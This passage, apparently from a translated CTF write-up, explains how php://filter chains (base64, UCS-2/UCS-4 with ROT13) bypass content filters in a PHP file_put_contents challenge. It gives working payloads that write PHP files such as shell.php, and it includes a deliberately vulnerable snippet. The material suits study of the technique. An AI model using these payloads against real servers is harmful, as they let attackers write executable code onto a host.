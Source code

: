 So this feature can be used to nest filters to bypass the equality sign

```php
Payload:

php://filter/write=PD9waHAgcGhwaW5mbygpOz8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=H3rmesk1t.php

After testing, it was found that write= must be written in. If you do not write PHP, it will not be automatically recognized. At the same time, the content must be written in the front. If you write in the back, it will be written in, but it cannot be parsed, such as:
php://filter/write=convert.iconv.utf-8.utf-7|convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=H3rmesk1t.php
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528011717550.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**UCS2/ROT13, UCS4/ROT13: **
After testing it myself, this process recognizes spaces when using UCS2 or UCS4 for encoding, but when using pseudo-protocol, it is necessary to invert and decode, but it cannot recognize spaces. This is why the payload below needs to add one more character.

```php
Payload:

?content=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE|string.rot13|x?<uc cucvcsa(b;)>?/resource=shell.php
# Note that you need to add a character here, because spaces cannot be reversed with any character
```

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528012033631.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**UCS4/ROT13:**

```php
?content=php://filter/write=convert.iconv.UCS-4LE.UCS-4BE|string.rot13|x?<xx cucvcuc(bsa>?;)/resource=shell1.php
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528012805901.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
### The third situation

```php
<?php
if(isset($_GET['content'])){
    $filename = $_GET['filename'];
    $content = $_GET['content'];
    file_put_contents($filename,$content . "\nxxxxxx");
}else{
    highlight_file(__FILE__);
}
```

Generally speaking, languages ​​with special starting characters and ending symbols are prohibited. If you can't help, you can execute them by writing them directly into the PHP code. The subsequent restrictions are meaningless. This type of problem often requires finding a way to deal with mixed code.
